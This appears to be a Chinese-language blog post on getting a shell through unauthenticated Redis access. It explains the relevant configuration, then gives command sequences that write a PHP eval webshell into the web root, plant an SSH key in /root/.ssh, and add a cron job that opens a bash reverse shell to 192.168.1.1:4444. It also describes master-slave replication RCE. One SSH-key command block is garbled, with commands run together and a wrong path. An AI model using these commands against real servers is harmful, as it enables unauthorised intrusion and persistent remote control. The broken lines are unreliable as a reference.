 ```yaml
---
title: redis未授权访问
tags: sec
excerpt_separator: <!--more-->

---
```


<!--more-->

> 1.以内存作为数据存储介质,读写数据的效率高
> 2.储存的数据是持久化,断电重启,数据不会丢失 
> 3.存储分为内存存储,磁盘存储和log文件 
> 4.可以从磁盘重新将数据加载到內存中,也可以通过配置文件对其进行配置,能实现持久化 
> 5.支持主从模式,可以配置集群,利于支撑大型的项目。

redis默认端口 6379 
sentinel.conf 配置器端口26379

# 1. 利用条件

3.2.0 版本后 redis.conf 配置文件中两个比较重要的参数 `bind` 以及 `protected-mode`

以下情况可以满足未授权访问 Redis

- 未开启登录认证(即没有配置登录密码，默认即可满足)，将 redis 绑定到了0.0.0.0(设置bind 参数为 0.0.0.0)
- 未开启登录认证(即没有配置登录密码，默认即可满足)，未绑定 redis 到任何地址(将 bind 参数注释掉)，关闭保护模式(设置 protected-mode 的参数为no)

1.配置登录策略导致任意机器都可以登录 redis

2.未设置密码或者设置弱口令

![image-20220208172537259](https://raw.githubusercontent.com/aloha1024/image/main/imgimage-20220208172537259.png)

| 配置项                   | 说明                                                         |
| ------------------------ | ------------------------------------------------------------ |
| port 6379                | 指定 Redis 监听端口，默认端口为 6379                         |
| bind 127.0.0.1           | 绑定的主机地址，格式为bind后面接IP地址，可以同时绑定在多个IP地址上，IP地址之间用空格分离，如 bind 192.168.1.100 10.0.0.1，表示同时绑定在192.168.1.100和10.0.0.1两个IP地址上。如果没有指定bind参数，则绑定在本机的所有IP地址上。 |
| save <seconds> <changes> | 格式为 save <秒数> <变化数>，表示在指定的秒数内数据库存在指定的改变数时自动进行备份也就是指定在多长时间内，有多少次更新操作，就将数据同步到数据文件，可以多个条件配合 |
| dbfilename dump.rdb      | 指定本地数据库文件名，默认值为 dump.rdb                      |
| dir ./                   | 指定本地数据库存放目录，指明 Redis 的工作目录为设定的目录，Redis 产生的备份文件将放在这个目录下 |
| requirepass foobared     | 设置 Redis 连接密码，如果配置了连接密码，客户端在连接 Redis 时需要通过 AUTH <password> 命令提供密码，默认关闭 |
| protected-mode           | redis3.2 版本后新增 protected-mode 配置，默认是 yes ，用于设置外部网络连接 redis 服务。关闭 protected-mode 模式，此时外部网络可以直接访问。开启 protected-mode 保护模式，需配置 bind ip 或者设置访问密码。 |



# 2. 利用方法

##### 1.通过向Web目录中写webshell的方式进行getshell

Redis 存在未授权访问的情况下，也开启了 web 服务，知道 web 目录的路径，具有文件读写权限，就可以通过 redis 在指定的 web 目录下写入shell文件。

```shell
config set dir /var/www/html/ 
config set dbfilename shell.php
set xxx "<?php eval($_REQUEST[cmd]);?>" 
# set xxx "\r\n\r\n<?php eval($_REQUEST['cmd']);?>\r\n\r\n"   
#\r\n\r\n 代表换行的意思，用redis写入文件的会自带一些版本信息，如果不换行可能会导致无法执行
save
```

##### 2.通过写SSH key的方式进行getshell

Redis 存在未授权访问的情况下，开启了 ssh 服务，在数据库中插入一条数据，将本机的公钥作为 value，key 值随意，然后可以通过修改数据库的保存路径为 `/root/.ssh` 和保存文件名为 `authorized.keys` ，备份数据库之后就可以在服务器端的 `/root/.ssh` 下生成一个key

```shell
config set dir /root/.ssh/config 
set dbfilename authorized_keysset xxx "ssh-rsa xxxrsaxxx root@root" 
save
```

```shell
(echo -e "\n\n"; cat /home/root/.ssh/id_rsa.pub; echo -e "\n\n") > key.txt
cat key.txt | redis-cli -h 192.168.1.1 -x set xxx
redis-cli -h 192.168.1.1    
> config set dir /root/.ssh/    
> config set dbfilename authorized_keys    
> save
ssh -i /home/root/.ssh/id_rsa root@192.168.1.1
```

出现报错`(error) ERR Changing directory: No such file or directory` 

原因是目标服务器上不存在这个目录,`.ssh`是记录密码信息的文件夹,如果 root 用户没有登录过,就没有 `.ssh` 文件夹

使用 `ssh localhost` 或者手动创建`mkdir .ssh` 目录

##### 3.通过写corntab计划任务的方式进行getshell

centos利用条件 关闭防火墙`service firewalld stop`

```shell
config set dir /var/spool/cron/ 
config set dbfilename root
set xxx "\n\n*/1 * * * * /bin/bash -i>&/dev/tcp/192.168.1.1/4444 0>&1\n\n"
save
```

ubuntu无法利用 原因如下

> redis默认写文件后是 644 权限
>
> 但是 Ubuntu 要求执行定时任务文件 `/**var**/spool/cron/crontabs/<username>` 权限必须是 600 才会执行
>
> 否则会报错 (root) INSECURE MODE (mode 0600 expected)
>
> 而 Centos 的定时任务文件 `/var/spool/cron/<username>` 权限 644 也可以执行

> redis 保存 RDB 会存在乱码，在 Ubuntu 上会报错，而在 Centos 上不会报错。

ubuntu 和 centos的crontrab文件位置也不同

> ```
> + Centos 的定时任务文件在 `/var/spool/cron/<username>`
> + Ubuntu 的定时任务文件在 `/var/spool/cron/crontabs/<username>`
> ```

##### 4.利用主从复制获取shell

当把数据存储在单个Redis的实例中，当读写体量比较大的时候，服务端就很难承受

为了应对这种情况，Redis就提供了主从模式

主从模式就是指使用一个redis实例作为主机，其他实例都作为备份机，其中主机和从机数据相同，而从机只负责读，主机只负责写，通过读写分离可以大幅度减轻流量的压力，算是一种通过牺牲空间来换取效率的缓解方式

在Reids 4.x之后，Redis新增了模块功能，通过外部拓展，可以实现在Redis中实现一个新的Redis命令，通过写C语言编译并加载恶意的.so文件，达到代码执行的目的





​	本地Redis主从复制RCE反弹shell

redis密钥登陆ssh

利用主从复制rce


